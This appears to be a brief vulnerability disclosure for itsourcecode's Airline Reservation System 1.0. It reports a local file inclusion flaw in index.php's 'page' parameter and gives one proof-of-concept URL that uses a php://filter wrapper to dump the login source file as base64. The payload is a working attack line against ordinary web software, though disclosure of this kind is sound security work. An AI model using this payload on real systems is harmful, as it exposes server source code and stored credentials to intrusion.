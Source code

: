 # Vendor

itsourcecode

# Product

Airline Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/03/Airline-Reservation-System-PHP-Project-Source-Code.zip

# Vulnerabilities

LFI

# Description

In the site's index.php page, due to insufficient filtering of the page parameter, an attacker can construct a special POC to achieve local file inclusion.
<img width="1307" alt="image" src="https://github.com/user-attachments/assets/871c0497-0006-4dfa-829a-a9dad68d3685">

# Poc

```
http://192.168.17.22/index.php?page=php://filter/convert.base64-encode/resource=login
```
<img width="1536" alt="image" src="https://github.com/user-attachments/assets/21c3f42a-2b42-431d-9bbc-c09002edbd27">
